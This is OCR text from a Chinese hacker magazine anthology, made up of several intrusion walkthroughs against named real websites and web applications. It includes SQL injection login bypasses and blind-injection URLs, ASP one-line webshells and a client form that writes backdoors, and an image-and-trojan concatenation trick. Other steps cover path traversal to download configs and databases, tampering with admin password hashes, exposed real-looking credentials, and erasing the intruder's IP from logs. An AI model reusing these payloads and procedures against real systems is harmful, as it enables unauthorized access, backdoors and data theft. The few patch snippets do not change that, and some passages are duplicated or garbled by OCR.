SELECT * FROM shell INTO OUTFILE 'E:/inetpub/wwwroot/load.php';
DROP TABLE IF EXISTS shell;
```


试了好多地方说啥也不行，难道是人品问题？只好用phpMyAdmin直接对数据进行了分析，找了一会，找到了敏感信息。如图10所示。


在用户登录处用如下信息，用户名sysop密码764572，成功登录！(还是斑竹呢)。如图11所示。


不过用其他几个用户登录就不行，奇怪。顺便说一句：在分析数据库过程中发现了好多假用户名和密码，一般来说，这种网站还是不要动的好，小心引火上身(毕竟他的上头北大是教育网主节点)。

至此，已经顺利拿到管理员用户/密码，新建个用户给同学用，发个漏洞通知给管理员，在phpMyAdmin里把有关自己IP项抹掉，闪人！

各位管理员可要把自己的phpMyAdmin设置好了，可别让你的网站因此失守哦！


适合读者： 脚本爱好者， 入侵爱好者
前置知识： SQL注入基础

### Co Net MIB Ver 1.0

### 漏洞再探索

文/图 Chris7


《黑客防线》2005年5期上面有一篇文章《肉鸡，得这样抓》，是关于Co Net MIB Ver 1.0系统管理员登录文件的漏洞的。文章介绍了一个抓肉鸡的好方法，可惜我似乎总是慢人一拍，当初看的时候没有留意，直到前几天才又翻到这篇文章。于是一时心血来潮，请出Uncle Google，一下子出来了2000多项。可是正当我准备大展身手的时候郁闷的事情来了：绝大多数网站已经打上了补丁；还有一些能进入后台，但已经被先来的兄弟删掉了漏洞文件，我只能看着发愣。怎么办，难道就这样干瞪眼没办法？呵呵，先找个系统来分析一下再说。翻了N多页以后，终于被我找到一个大致还保持着原貌的，于是登录进去，于是有了这篇小文。

先回顾一下我们开始时候利用的登录文件。一般默认是/manage/login.asp。具体的利用方法第5期的文章里

www.hacker.com.cn
2006精华奉献本 下册

讲过，我再补充一些分析说明。大家一起来看存在漏洞的代码：

```
<%
pwd = request.form("pwd")    // 变量赋值
name = request.form("name")
Set rs = Server.CreateObject("ADODB.Connection")  // 开启数据库操作
sql = "select * from Manage_User where UserName='" & name & "' And PassWord='"&encrypt(pwd)&"'"
// 存在漏洞的语句
Set rs = conn.Execute(sql)    // 查询数据库
……
%>
```

第5期文章的作者说用户名和密码都填 `' or ' = ' or '` 就可以登录，并没有做更多分析。
其实我们仔细看一下就知道，只要用户名填 `' or ' = ' or '` 密码随便写就可以登录了。这时候的查询语句是 sql= "select * from Manage_User where UserName='" or ' '=' ' or ' ' And PassWord='"&encrypt(pwd)&"'"，密码我没有替换，表示可以任意密码。大家可以看到这时候where后面的值就已经为真了。程序就认为在数据库中找到了对应的用户名和密码，于是用户合法登录。实际上，从… PassWord='"&encrypt(pwd)&"'这一段可以判断出： 用户提交的密码是被加密后才放进数据库查询的。当然原来提交的密码已经面目全非了，构造的所谓`' or ' = ' or '`密码也就没有意义了。
同样的道理，我们可以用户名填`' or ' 1 = 1 '`等，密码随便写，也一样可以成功进入后台管理。
但是如果登录页面的漏洞被修补了呢？ 这种情况下要怎么样才能进入后台，继而进一步我们的渗透？ 下面提供两个思路以及相应的利用方法。

#### 下载默认数据库和备份数据库

默认情况下数据库地址是：

```
http://www.target.com/database/datashop.mdb
http://www.target.com/databasebackup/datashop.mdb
```

我测试了一下，有好多网站虽然修补了登录页面的漏洞，甚至全站都用了通用防注入系统，但是默认数据库地址却没有更改。这样我们就可以很容易地下载到数据库。如图1 所示。


打开数据库，可以看到里面有Manage_User表。如图2所示。
存放的就是后台的用户名和密码。不过你要是直接拿这里的用户名和密码去登录是不会成功的。Why? 因为密码经过了简单的加密。呵呵，解密的问题后面再讲。
要防止类似的漏洞，比较好的


方法是改动默认数据库和备份数据库的地址。此外我简单测试了一下暴库，但没有成功，就不多说什么了。

#### 2、SQL注入

万一更坏的情况发生 默认数据库和备份数据库都改了路径呢？ 又该怎么样才能拿到后台的用户名和密码？ 到首页上逛逛先。呵呵，发现这样的连接：
http://www.target.com/ArticleShow.asp?ArticleID=47
那当然要试试注入了啊。
依次提交：
http://www.target.com/ArticleShow.asp?ArticleID=47 and 1=1
正常显示。
http://www.target.com/ArticleShow.asp?ArticleID=47 and 1=2
提示找不到产品。
哈哈，基本上可以确定存在漏洞了。
剩下的事情交给工具去办。用啊D工具浏览一下网页，一会就报告了两个可注入的连接。如图3所示。
http://www.known-cn.com.cn/eduNewsInfo.asp?id=561


然后就是SQL注入检测了，跑管理员的用户名和密码。是Access数据库，半分钟功夫就出来了。如图4所示。


用户名： captai.密码2： <=7679。同样是经过加密的。
接下来我们来看看漏洞文件ArticleShow.asp。这个文件头部的代码有一些问题，如下：

```
<%
……
dim ArticleID    // 定义变量
ArticleID=trim(request("ArticleID"))  // 变量赋值
……
sql="select * from Product where ArticleID=" & ArticleID & ""  // 查询数据库
……
%>
```

我们来具体看这一句： sql="select * from Product where ArticleID=" & ArticleID & ""
并没有对ArticleID过滤，因而造成了注入攻击的漏洞。另一个文件yeNewsInfo.asp存在的问题是类似的，就不再分析了。ArticleShow.asp和yeNewsInfo.asp都已经放在文章包中，读者可自行分析。
本来通过SQL注入一般可以有更进一步的利用，但是由于该系统是Access数据库，加之虚拟主机的权限设置一般而言比较严格，因而通过注入再进一步渗透的可能性比较小。
下面我们来看数据库Manage_User表里面的密码解密的问题。本来在login.asp中有下面的代码，也就是在判断我们提交的用户名和密码是不是正确上出了漏洞的代码。
具体来看 … And PassWord='"&encrypt(pwd)&"'，可以看到密码是经过加密的。

我们观察一下加密后密码的格式，比如刚才跑出来的2:<=7679，似乎并不是md5。这样就存在逆向解密的可能。只要跟踪一下加密的过程，就很容易验证我们的猜想倒底是不是正确。不过我还没跟踪就发现了一个问题：进入后台后默认页上有一个用户管理的功能，可以看到每个后台用户的用户名和密码，刚才跑出来的那个密码的明文是19992001。我开始时候下载的数据库里还有两个用户加密后的密码(以下简称为密文)分别是33ffj4um}和sgjii0{，进入后台后找到了它们对应的明文分别是21cbe.net和regedit。发现了什么没有？

首先，每个密文和它对应的明文的位数是相等的。其次可以发现，从ASCII码角度来说，每个密文首位都比对应的明文大1，次位大2，再次大3…。呵呵，都出来了吧，加密的算法就是把明文的第n位加上n(n=1,2,3…)，然后就得到了密文。我把得到的其它密文按上面的算法转换为相应的明文，发现这下都能够登录进后台了啊。呵呵。不过这个验证也太不严密了，下面我们一起来分析一下具体的代码。首先在login.asp文件中没有encrypt()函数的定义，那我们看看它包含了哪些文件。在login.asp文件的首部，有下面的语句：<!--#include file="Conn.asp"-->。呵呵，果然在Conn.asp文件里有encrypt()函数的定义，一起来看下

```asp
function encrypt(ecode)        // 函数的定义
Dim texts        // 变量的定义
dim i
for i=1 to len(ecode)        // len(ecode) 返回的
' 是 ecode 字符串的长度
texts=texts & chr(asc(mid(ecode,i,2))+i)  //明文第i位加
i 得到相应密文，并通过循环不断连接到texts 后面
next
encrypt = texts        // 循环结束，得到密文
end function
```

可见上面我们分析的算法是正确的。接下来的问题就剩下解密了。这个比较简单。一般来说手工解也很快。但是如果要解的密文比较多又不熟悉ASCII码的话，手工解密就会比较麻烦了，于是我就写了个小程序来完成这个工作。如图5所示。


呵呵，照顾一下不会编程的读者，我把这些代码加

了简单的注释说明(在VC++6.0下编译通过)：

```c
#include <stdio.h>        // 包含头文件
#include <malloc.h>
int main(){
int len,i;        // 定义变量
char *encoded,*decoded;
printf("length of password:");        // 接收密文的长度
scanf("%d",&len);
encoded=(char *)malloc(len+1);  // 动态申请数组空间
decoded=(char *)malloc(len+1);
getchar();        // 接收缓冲区里面剩余的一个回车符
printf("encoded password:");
for(i=0;i<len;i++){        // 这个循环就是接收密文并解密
```

```c
的过程
scanf("%c",&encoded+i);
if(encoded[i]=='\n') break;
decoded[i]=encoded[i]-i-1;
}
encoded[i]='\0';        // 数组的结束，防止越界
decoded[i]='\0';
printf("decoded password:%s\n",decoded);
// 输出明文
return 0;
}
```

编译好的decode.exe也放在了光盘中。

到这里为止，我们已经拿到后台的用户名和密码了。当然是先登录进去。如果后台的漏洞没有修补的话，我们可以先上传一个改为了图片后缀的网页木马，然后利用数据库备份功能就可以得到WebShell。这些在第5期的那篇文章里面作者都有仔细地讲，这里就不多说了。下面来看一下，如果后台上传功能由于管理员意识的提高或是先到的兄弟不够无私什么的，不能用了，怎么办？难道就眼睁睁看着后台却怎么也拿不到WebShell？呵呵，当然不是。下面来讲两种利用的思路和相应的利用方法。

有些时候这台服务器已经被某位兄弟先进来过了，或者是他出于某种考虑，把上传文件给删了改了(笑什么笑，就说的你！哈哈 )，或者是管理员把上传的功能给禁止了。这时候我们可以到上传管理中，把上传时间在漏洞发现以后的文件依次打开看看，有一些伪装成图片上传的木马就藏在里面哦。如果你果然发现了这么一个"图片"，接下来就简单了，利用数据库备份就可以见到你熟悉的马儿了。但不是所有时候我们都有这么好的运气的。很多管理员知道了漏洞所在，修补漏洞的时候当然要检查上传的文件里面有没有"潜伏者"，而大多数兄弟也不会留下这么明显的痕迹给管理员看的，利用完了就顺手到上传管理里面把刚才伪装成图片上传的马儿给删了。这时候怎么办？似乎没什么办法了啊。那我们来看看手里面都有些什么：一个后台，只能添加一些文字，不能上传图片，可以备份数据库。呵呵，这个时候你想到什么？对了，我们可以利用后台里面的添加功能，比如添加新产品，添加链接什么的，写一个小马插入数据库中，然后再利用数据库的备份功能不就一切OK了么？下面就来在"友情链接管理"中插入一句话木马。如图6所示。


插好了以后就是备份啦，马就这么写进去了。我

们用下面的这个客户端来连接它，第一句话里面的url就是刚才我们备份得到的木马的地址

```html
<form action=http://www.target.com/file.asp method=post>
<textarea name=value cols=120 rows=10 width=45>
// 提交后textarea中的语句被execute()执行
set IP=server.createObject("Adodb.Stream") // 创建Adodb.
```


## SCRIPT ATTACK

栏目编辑:脚本小子)scriptsb0y@hacker.com.cn

```asp
Stream对象处理输入和文件
IP.Open
IP.Type=2
IP.Charset="gb2312"
IP.writeText request("hack")
//hack 相当于标识，与上面的value作用相当
IP.SaveToFile server.mappath("new.asp"),2
//将下面的的textarea的内容保存为new.asp
IP.Close
set IP=nothing
response.redirect "new.asp"    //打开new.asp
</textarea>
<textarea name=hack cols=120 rows=10 width=45> </textarea>
<BR><center><br>
<input type=submit value=提交>
```

将上面的代码保存为client.htm就可以了。这下我们可以写入一个自己喜欢的功能强大的木马。其实我们直接在数据库里面插入海阳木马2006 C/S模式的短服务端也行，然后用服务端直接连接就可以得到一个海阳2006的WebShell了，代码也很短<%if Request("#")<>"" Then Execute(Request("#"))%>。其他的还有冰狐等也很好用。这里要补充的是，不一定非要在"友情链接管理"这个栏目中插入，只要能写入数据库的地方大多是可以的。可以先看看图2中数据库里面的大致内容，然后选择插入点也不一定非要上传ASP的WebShell。如果服务器支持其他脚本的话，也可以上传对应的后门。有时候其他类型的后门对于提权来说方便些。这是题外话了。

上面我们在备份数据库功能没有被删掉或破坏的基础上成功地得到了WebShell。那么，如果我们现在不能备份数据库又该怎么办呢？思考中……实话说，我到现在还想不出来。(某读者大怒：浪费感情，既然不知道那废话什么！)不过在这个系统早期的版本里面可能存在上传文件类型过滤不严的漏洞，导致可以上传cer类型的文件等。具体情况如下。

网上有一篇文章里面说，Go Net MIB Ver 1.0 后台管理里面的“添加产品”页面跟动力的后台编辑是一样的，跟动力存在一样的上传漏洞。如图7所示。

但我实际测试了好几个站点,都发现并不成功。好奇怪啊，为什么呢？那我们就再上传一个允许上传的图片文件,抓包看看到底怎么回事。抓包的结果。如图8所示。


我们知道，动力的上传漏洞是因为用户可以自定义文件名，但从图中我们可以看到，用户既不可以自定义路径，也不可以自定义文件名。而且如果我们随意上传一个不存在的文件类型的文件，比如说 aaa.aaa ，系统就会提示说该文件属于不允许上传的文件类型。由此可见该系统对上传文件类型的过滤采取的是"只允许"的判断方法，所以我们是应该是没有办法利用的。上面的实例我觉得已经颇具说服力了，下面的代码分析进一步验证了上面的判断。相关的进行上传文件类型过滤的代码摘录如下，其中EnableUpload是允许上传的标志

法,所以我们是应该是没有办法利用的。上面的实例我觉得已经颇具说服力了，下面的代码分析进一步验证了上面的判断。相关的进行上传文件类型过滤的代码摘录如下，其中EnableUpload是允许上传的标志

```vb
EnableUpload=false                // 默认不允许上传
...
fileExt=lcase(file.FileExt)       // 将上传文件的后缀转换为小写
Forumuplode=split(UpFileType,"|") // 用来取得允许上传的类型
for i=0 to ubound(Forumuplode)    // 循环匹配允许的类型
if fileEXT=trim(Forumuplode(i)) then    // 如果符合则设置为允许上传
    EnableUpload=true
    exit for
end if
...
```

本来后面还有一段的，这里我把它去掉了。因为这里已经过滤得很充分了，后面还写了一段代码判断类型是否asp,asa或者aspx实在是多余，有画蛇添足的嫌疑，呵呵。我估计是升级时候留下来的旧版本的代码。所以上面那篇网文的作者可能利用的是该上传文件还未加上这段类型过滤代码时存在的类型过滤不严上传漏洞，而不是动力的后台漏洞。从利用方法来看也是符合的，他是在上传的时候在ASP文件后面加个空格,从而骗过了上传类型过滤。

```vb
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then    //仅检测了这3种类型
EnableUpload=false
end if
if EnableUpload=false then
//判断EnableUpload的值是否为不允许
msg="这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
// 提示该文件类型不允许上传，给出允许上传的类型
founderr=true    //设置标志，表示出错
end if
...
```

文件存放路径是程序定义的:
SavePath = SaveUpFilesPath
文件名也是程序定义的:

```vb
filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"_"&fileExt
```

由此可见此处的上传功能是无法利用的。upfile.asp也已经被一起放在了文章包中,各位看官可自行分析验证。

还有两个特殊一点的情形也一并简单说明下，这是我实际测试的时候碰到的。

- 1. 我们是翻山越岭啊，跋山涉水啊,终于通过种种方法进入了后台,本来应该一眼就看到"数据库备份"这个选项的,但现在找遍了都没有,怎么办？呵呵,不妨试试直接请求 http://www.target.com/manage/Manage_backup.asp。因为有的管理员虽然把"数据库备份"这个功能从后台的操作面板中去掉了，但是文件仍然是存在的。剩下的照上面操作就行。
- 2. 有的时候得到的后台密码是经过md5加密的。这个时候我给的程序当然就没用了。除了暴力破解,我

## SCRIPT ATTACK

栏目编辑|脚本小子|scriptboy@hacker.com.cn

想不出什么更好的得到后台用户名和密码的方法。

我对脚本的安全问题不太熟悉，但是为了照顾文章的完整性，也在这里给出我对文章中涉及的几个漏洞文件的简陋修补方法，高手莫笑。

1)首先是后台的登录文件login.asp。我的思路是通过滤敏感字符。在用户输入完用户名和密码后，先判断是否包括敏感字符，如果含有敏感字符，就直接重定向到一个出错页面，否则继续执行程序。过滤用户名中敏感字符的具体代码如下所示：

```asp
<%
...
pwd=request.from("pwd")
name=request.from("name")
for i=1 to len(name)
chr=mid(name,i,1)  // 依次从输入的用户名中取一位
if chr="'" or chr="%" or chr="<" or chr=">" then
    // 这里仅仅是举例，敏感字符可以自定义，也不限于一位
    response.redirect "error.asp"
    response.end
end if
next
...
%>
```

同样的道理，我们可以过滤加密后的密码字符串。

2)还有两个存在SQL注入漏洞的文件ArticleShow.asp和ysNewsInfo.asp。这里给出相应的修补方法。啊呵，现在SQL注入的手法层出不穷，这下小生可要献丑了。讲一下大概的思路先。首先过滤单引号。然后，由于这两个文件都是数字型的参数，我们可以在获取参数后做一个判断，看接收到的是不是数字。下面仅以文件ArticleShow.asp为例说明。ArticleShow.asp修补后的具体代码如下所示(仅仅给出了改动和添加的部分)：

```asp
<%
...
ArticleID= replace(trim(request("ArticleID")),"'","");
// 替换单引号为空格
if ArticleId="" or isnumeric(ArticleID)=0 then
    // 检查参数是否为数字型
    response.Redirect("Product.asp")// 重定向到Product.asp
    response.end                      // 结束程序运行
end if
...
%>
```

ysNewsInfo.asp也可以按照同样的方法修改。这里就不做进一步分析了。文章没有什么深度，仅仅从利用的角度谈了一些思路，也没有对整套程序进行深入的分析。小生才疏学浅，还望诸位多多包涵。如果文章中有什么错误或者不足，请各位大侠务必严厉指出。我在黑防论坛的用户名是chris7。


### 利用网络硬盘漏洞 拿致桃源官方站点

| 适合读者: 脚本爱好者, 入侵爱好者 |
|---|
| 前置知识: 漏洞入侵基础 |

文/图 1860

近日对桃源工作室的桃源网络硬盘V2.0作了详细的漏洞分析。发现在现有网络上，所有使用这个系统的免费跟收费版都有漏洞存在。上线去了桃源官方网站转了下，发现了他们现在推出新版本V 2.5，目前还在测试中，好的，因为该网络硬盘在2.5版本前有两大漏洞可以控制到主机的，心想怎么不测试一下新版本的V2.5性能如何呢。

先在IE打开了桃源的官方网站1Disk，好的，先来注册个账号。就123456吧。首先在上传的文件前先将文件的后缀名删除掉。因为源文件禁止上传关于A s p、A s p x后缀名的文件哦。如图1所示。


图 1

这里我用的后缀名为A s p x的木马。改完后，就来到上传对话框。在上传文件的后面加上一个空格然后在面加上一个小点。这样就可以突破上传限制了。如图2所示。

上传完毕后，马上改名。将刚才上传的Evilspy的文件改回原来的后缀名：Evilspy.Aspx。改完后马上对刚才上传的文件：Evilspy.Aspx进行编辑，在点击编辑该文件，来到了文件编辑，在另外的对话框中将另存的路径改为 ../../123.aspx吧。如图3 所示。

将文件路径填好，点另存网站目录下了。到这里，大家梦寐以求的WebShell就已经上传到了对方网络硬盘里去了。如图4所示。

这上面就是其中的一种漏洞罢，还有另外一种漏洞就是提交../../跳转路径进行下载服务器中的网站配置文件。首先先来个上传，什么文件都行的，在文件后面加上一个符号或者是不存在的字母就行了，如图5所示。

大家看到了对话框中没有，我在上传的文件Evilspy.asp


图 2


图 3

## SCRIPT ATTACK

> 栏目编辑)脚本小子)scriptboy@hacker.com.cn


文件后面加多一个“L”，然后按回车，马上就提示出错了。未能找到文件，就连对方服务器的物理路径也暴露出来啦。路径大家知道了，那么怎么利用“../../”来进行跳转下载服务器的文件呢，大家看下，对方网站的目录有二层就到了Webdisk目录下了，网络硬盘的配置文件(Web_Config)，数据库文件都在这层下呢。首先提交下载了硬盘的配置文件：Web_Config，如图6所示。


下载了配置文件回来，大家可以清楚看到了配置文件中记录了数据库名及路径呢，默认的就是在Webdisk目录下的Reg.mdb文件就是了。接着在IE地址栏提交得到数据库。如图7所示。


大家看到了吧，就这样提交就可以下载到对方服务器的网络硬盘的配置文件及数据库了。看来官方的最新版本V2.5还是没有修复这两大漏洞吧。在这里希望桃源官方在下一版本或者在现有的V2.5测试版完成测试后，修复这个漏洞吧。

本人只对官方系统只是测试，并没有进行过任何破坏。请大家不要搞破坏，后果自负。谢谢。


脚本小子：很多网站的管理员都喜欢用新闻小偷之类的程序收集新闻，不过一个不小心自己的网站和密码也会给人家偷去。不管怎么说，有句老话叫“做人要厚道”，小偷们都请小民了。

适合读者：入侵爱好者，脚本爱好者
前置知识：漏洞利用基础

### 以盗制盗
#### 入侵韩国黑客系统

文/图 中山八路

“为了她又再勉强去谈天论爱，又再振作去慰解他人”，而我呢？“我为了它又再努力去作战，又再发奋去为自己服务……”不错的网站，可惜这个娱乐站里的传奇私服的装备被人炒到天价，真不知怎样搞的，想搞件好点的战衣也很难，俗话说在越压迫的环境里就越要反抗。因为游戏服务器与网站是同一台主机的，看来它的服务器真的是好性能。

本来打算从论坛入手的。可惜论坛是用动网的，且是最新版，看来已公布的漏洞早已没有效了，还是从其它的地方入手吧。在分析的过程中，发现了一个很有趣的漏洞，就是网站程序员写的新闻小偷系统。下面我们看看是如何有趣吧，如图1所示。


大家有没有发现图1里的IE地址栏的URL是如何构造的？看上去有点问题吧，没错，它真的有问题。下面是我的一次证实行动。

有些带“<% %>”标记的代码在IE浏览器里是不显示出来的，所以必需要查看源代码才可以看到ASP程序代码，如图2所示。

从图2可以看出，用“../../”来跳转文件名是有效的，看来又是一个不注意的问题。当我修改了它的URL后提交，它的“show.asp”会很自觉的去帮我读取我要的文件。由于现在还没有上传“WebShell”，计划从BBS里上传ASP后门来改名。所以我把“Show.asp?Url=FileFullName”改为论坛目录里的“Conn.asp”，看看论坛的数据库连接资料。如图3所示。


www.hacker.com.cn
黑客X档案 2006精华奉献本 下册

## SCRIPT ATTACK

> 栏目编辑/脚本小子: scriptboy@hacker.com.cn

哇，什么东西都有啦！它的论坛是用MSSQL的，且还从“Conn.asp”里找到SQL的数据库账号，但是话又说回来，细心想想，它的用户不是“SA”，看来账号的权限也不高，最多是编辑那个论坛的数据库，有点悲观。很快又恢复好心情，其实要得到“WebShell”利用这个权限已经足够了。因为我还可以修改数据库里的一草一木呢，包括它的BBS后台ID，但是对方有没有把那个MSSQL的端口映射出来呢？想到这就二话不说，以实际行动证实，马上用“Telnet IP 1433”测试，居然连上了，真是天助我也。图4是我用SqlBrowers连上去了，因为SQL语句有些烦琐，如果出了问题我怕，如果用它可以从图形界面修改数据，就可以免除那些不必要麻烦了。


这个工具很简单，不用我一一的介绍吧。连上MSSQL后就打开它动网论坛里数据库的“Dv_Admin”的表，接下来要做的就是偷梁换柱，先把它原来的“Password”的密文保存下来(当完全控制了后台就把它源来的密文写回，这样就神不知鬼不觉了)，然后用MD5密码生成器生成一个密文。如图5、图6所示。后面的过程我在这里就不多讲解了，因为后面上传ASP文件都差不多是一样的。


是不是没想到一个新闻小偷系统也有简单的漏洞呢,而且就是一个这样的漏洞就把安全威胁到论坛,再由论坛进军整个系统,就凭这个漏洞就在短短的几分钟内直捣黄龙,真的有些不可思议哦。

适合读者：脚本爱好者，入侵爱好者
前置知识：无

### 入侵动网7.1SP1：
### 拿博客得WebShell

文/图 Sweet

#### 前言

最近，一个朋友让我帮他做一个动网论坛。他对黑客技术一无所知，所以希望我在交给他之前，把论坛的安全设置做好。由于好久没有接触动网了，今天去动网的官方网站我才知道如今动网的版本已经出到了7.1 SP1了。当然啦，由于过去的7.0和7.1版本“千疮百孔”的漏洞，我不打算再用以前的版本了。所以我在网上帮他下载了这个最新的7.1SP1版。安装完新模版和朋友要求的插件以后，我便准备对它做一次安全检测。对于这个新的版本大家还不是很熟悉，相关的入侵的文章也非常少。我检测了一下，这个版本在安全性方面做的也确实非常地出色。不过百密一疏，我在一个非常意外的情况下还是找到了这个版本的一个非常不该有的漏洞。(呵呵，我真觉得我该去买张彩票了！)

#### 检测

由于论坛是我架设的,所以我可以直接进入后台。一般我们进入后台要得到WebShell 的主要思路就是通过上传——备份数据库的方法。所以我主要是从这点入手的。

##### 第一次失败

进入后台后，我在版面管理的高级设置里，将asp和asa两种格式添加进了“上传文件类型”里，然后到前台任意发一个帖子，在“文件上传”那里试图上传我的小马。结果如图1所示。


后来在asp和asa后面加了一个空格，同样失败。其实这早在我预料中，因为在前几个版本中已经修补了这个漏洞了，要是在新的版本出现，那可就闹笑话了。

##### 第二次失败

直接上传不成功，我就尝试用通过数据库备份的思路来得到WebShell。老方法，将asp木马的扩展名修改为gif，然后打算到前台进行上传。可是结果跟图1一样，无法上传。其实在7.1就无法通过这个方法上传了。于是我

www.hacker.com.cn
2008 精华奉献本 下册


## SCRIPT ATTACK

> 栏目编辑：脚本小子 scriptsboy@hacker.com.cn

想到了在7.1的时候可以使用dos的copy命令将一个普通图片和asp木马合并为一个图片就可以上传成功了。于是立刻找了一个小马(名字为1.asp)和一张gif图片(名字为1.gif)，使用命令

```
copy 1.gif/b+1.asp 2.gif (命令书写中两者的顺序不能改变)
```

合并得到了一个包含asp木马的图片2.gif。然后上传。本以为这样就能成功了，结果还是返回图1所示的结果。哎，郁闷。

##### 第三次失败

我想了想，能不能将一句话木马插入到数据库中呢？于是先在前台的控制面板中，将自己的签名和介绍全部加入了“<%execute request("1")%>”（不包括双引号）。使用后台的“数据库备份”功能成功将默认的mdb数据库备份为.asp的数据库了。然后在浏览器打开刚才备份好的ASP数据库，结果如图2所示。


大家都知道ASP文件的“<%”和“%>”是成对出现的，否则无法在客户端正常显示。原来论坛系统对数据库文件做了过滤，导致缺少“%>”作为ASP文件的结束符。

##### 第四次失败

数据库行不通，那能不能利用论坛的配置文件插入一句话木马来得到WebShell呢？于是我找了找源代码，在boke这个文件夹中找到了config.asp文件。于是马上到后台的博客设置中插入了一句话木马，并在一句话木马客户端执行。可结果跟图2一样，依然令人非常失望，同样是提示缺少“%>”。

##### 偶然成功

哎，可能是我黑客技术还没学到家，看来动网的这个最新版本在安全方面做得几乎“无洞可破”了。正当我准备放弃之际，论坛前台的“博客（Boke）”引起了我的注意！博客功能是动网7.1SP1新开发的一个插件。我看了看，界面做得很清新朴实，非常不错。那它的安全性如何呢？抱着试一试的态度，我申请了一个博客用户。

激活博客成功后，我在“发表文章”中找到了上传的地方。也没多想，习惯性地将一个.asp的asp木马改为.gif的图片木马尝试着上传。没想到，令人振奋的结果出现了！如图3所示。


不过见识了7.1SP1的“牢不可破”后，自己心里还是有点发虚，不敢肯定后台能不能成功恢复为ASP木马。进入后台，小心翼翼地打开“恢复数据库”。在“备份数据库路径(相对)”输入刚才图片上传后得到的路径。在“目标数据库路径”输入sweet.asp。递交后提示恢复数据库成功。然后在IE地址栏输入刚才恢复数据库的asp路径，回车。不久，终于看到了小马那可爱的画面了，如图4所示。


接下来就是在“输入马的内容”填入我的大马代码，并正确填写马的路径，最后保存。保存成功后，在IE地址栏递交大马的地址，大家再熟悉不过的画面终于出现了，如图5所示。


于是我终于成功得到了一个动网7.1SP1的WebShell了。

#### 总结

这次的漏洞检测可谓是一波三折。经过数次失败后，最后没想到却能利用这么老的漏洞得到一个WebShell。动网7.1SP1这个版本在安全性方面是我所遇到的动网的各个版本中做得最好的，性能也是最稳定的。不过百密一疏啊，新开发的这个博客插件在上传的过滤方面做得却如此脆弱。希望动网官方能及时修补这个漏洞，因为我觉得博客这个插件做得非常好，不要因为这个小小的漏洞而让我们不得不关闭这个插件的功能。

后来我通过百度搜索到了不少使用动网7.1SP1的论坛。但由于这个版本刚出来，很多人对它还不是很了解，而且很多安全设置还没有做，所以很多论坛都可以利用这个漏洞入侵。希望各位管理员在动网官方没发布相应的补丁前作好漏洞预防工作。也希望各位朋友重在技术的研究，不要用于违法用途。如因本文而引起的一切违法行为，概与本人无关！

www.hacker.com.cn
2006 精华奉献本 下册

## SCRIPT ATTACK

`栏目编辑/脚本小子` scriptsboy@hacker.com.cn

适合读者：脚本爱好者，入侵爱好者
前置知识：SQL注入基础

### 从挖掘“站长之家”注入点到搞定WebShell一路狂奔

文/图 sword[E.S.T]

某日，为了找个免费的asp.net空间，我转悠到了站长之家http://www.yisou8.com，令人失望的是几条asp.net空间信息根本就没法用，浪费了偶的注册时间，怎“郁闷”两字了得？！

于是，我决定帮忙监测一下网站有没有漏洞。很失望啊，很失望，在网站首页的所有潜在注入点都“试射”了一遍，没有发现一个可以利用的。郁闷之际，看到“美女图库”分栏目，决定进去看看MM图片休闲一下，如图1所示。


#### 挖掘注入点

习惯性的加个单引号http://www.yisou8.com/sucai/index.asp?catid=4'，这次又有了新的发现，幸亏我观察得仔细啊，两次返回的图片不一样，大家看看两次的图片对比，如图2、图3所示。


当提交第一个网址的时候，返回正常页面，提交第二个网址的时候返回另一个页面的信息，这就说明http://www.yisou8.com/sucai/index.asp?catid=4这个脚本存在SQL注入的漏洞。

虽然找到了注入点，但是都是些这么大的图片，返回的信息太慢，于是我决定继续找找看看。打开他的评论看看，是个无框窗口，把地址隐藏了，我们按“Ctrl+N”，地址已经暴漏了http://www.yisou8.com/sucai/review.asp?id=3256，这次直接用and 1=1试试。

```
http://www.yisou8.com/sucai/review.asp?id=3256 and 1=1
http://www.yisou8.com/sucai/review.asp?id=3256 and 1=2
```

第一次正常，第二次空白了，哈哈，找到了理想的注入点，那我们看看他是什么类型的数据库。http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select * from sysobjects) 返回空白，说明不存在系统表sysobjects，如果存在就是MSSQL数据库，如果不存在一般就是Access数据库了。很失望啊，看来得到WebShell比较困难，毕竟Access比MSSQL的功能少，麻烦。

#### 猜测表名、字段名、字段值

通过下面语句来猜解表名。

```
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select * from admin)
```

返回正常页面，说明表名正确。通过下面语句来猜解字段名。

```
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select admin from admin)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select password from admin)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin)
```

比较顺利，除了admin字段猜了两次username和user外，其他一猜即中。下面的过程是来猜测id的，高手一看即懂。

```
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where ID between 1000 and 3255)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where ID between 1000 and 3256)
```

猜测到id居然就是review.asp?id=3256这个3256！检测admin值。

```
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where len(admin)=5 and ID=3256)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where asc(mid(admin,1,1))=97 and ID=3256)
```

第一个字母是'a'，根据经验，一般字段名就是admin，试一下。

```
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where admin='admin' and ID=3256)
```

正确，猜出字段名admin的值就是“admin”。

猜密码值：

```
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where len(password)=12 and ID=3256)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where asc(mid(admin,1,1))=97 and ID=3256)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where asc(mid(password,1,1))>114 and ID=3256)
http://www.yisou8.com/sucai/review.asp?id=3256 and exists (select id from admin where asc(mid(password,1,1))>115 and ID=3256)
```

最后猜出admin内容是admin，password内容是

## SCRIPT ATTACK

> 栏目编辑/脚本小子 scriptsboy@hacker.com.cn

smrtanujf888，找到后台http://www.yisou8.com/sucai/admin/login.asp，进去看看。如图4所示。


很遗憾，试了几个地方插入木马都失败了。

```asp
<%if request("swords")<>"" then Session("sw")=request("swords")
if Session("sw")<>"" then execute Session("sw")%>
```

